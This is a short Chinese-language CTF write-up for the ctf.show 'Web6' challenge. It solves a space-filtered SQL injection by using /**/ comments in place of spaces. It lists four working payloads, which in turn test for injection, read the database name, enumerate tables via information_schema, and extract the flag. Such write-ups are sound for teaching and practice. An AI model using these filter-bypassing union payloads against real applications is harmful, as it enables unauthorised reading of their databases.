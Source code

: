 ```yaml
---
title: "Web6  @WEB"
date: 2023-07-22
draft: false
author: "W"
tags: ["web","ctf.show"]
---
```


 SQL注入题，过滤了空格，使用联合注入，语句中的空格用/**/代替即可

1、判断是否存在注入

```sql
a'/**/or/**/true/**/#
```

![](/ctf.show/11/1.webp)

2、查询数据库名

```sql
a'/**/union/**/select/**/1,database(),3/**/#
```

![](/ctf.show/11/2.webp)

3、查询数据库中的表名

```sql
a'union/**/select/**/1,(select(group_concat(table_name))from/**/information_schema.tables/**/where/**/table_schema='web2'),3#
```

![](/ctf.show/11/3.webp)

4、查询表的内容,拿到flag

```sql
a'/**/union/**/select/**/1,(select/**/flag/**/from/**/flag),3/**/#
```

![](/ctf.show/11/4.webp)

